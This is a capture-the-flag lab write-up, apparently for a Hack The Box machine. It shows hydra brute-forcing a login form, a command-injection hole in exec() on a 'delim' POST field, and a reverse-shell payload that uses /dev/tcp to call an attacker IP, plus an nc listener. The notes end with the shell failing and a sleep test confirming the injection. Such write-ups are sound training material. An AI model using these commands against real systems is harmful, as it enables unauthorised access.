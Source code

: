 ## Info

Can execute these in bash to set variables, which will be used later on in this script.

    ATTACKER=10.10.14.57
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64
    
Apparently it worked. `admin:asdfasdf`. Wow!

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.

### Downloaded PHP

Some more goodies exist in the code, like hardcoded secrets, but I don't care enough to review them. Command injection may be enough.

-   .`/downloaded-files/siteBackup/logs.php` line 19, command injection
    -   ```php
        $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
        ```

This is all we need to get a shell.

## Reverse shell via command injection

Run this bash command to generate a payload.

This payload is to be sent via HTTP POST into the 'delim' parameter, at this page: `/file_logs.php`

    echo "comma; bash -i >& /dev/tcp/$ATTACKER/6969 0>&1"

e.g:

    comma; bash -i >& /dev/tcp/10.10.14.57/6969 0>&1

Then, run this in JavaScript to modify the form (change IP if needed):

    $('option').value = "comma && bash -i >& /dev/tcp/10.10.14.57/6969 0>&1"
    $('option').innerHTML = "payload ;)"

Then, run this on the attacker machine to listen for connections:

    nc -lvp 6969

And submit the form.

And the reverse shell doesn't work. Fuck.

Does the command injection work at all?

Try:

    $('option').value = "comma && sleep 20"
    $('option').innerHTML = "payload ;)"

Sleep works... So the command injection works. Perhaps we just can't make a connection back to the attacker.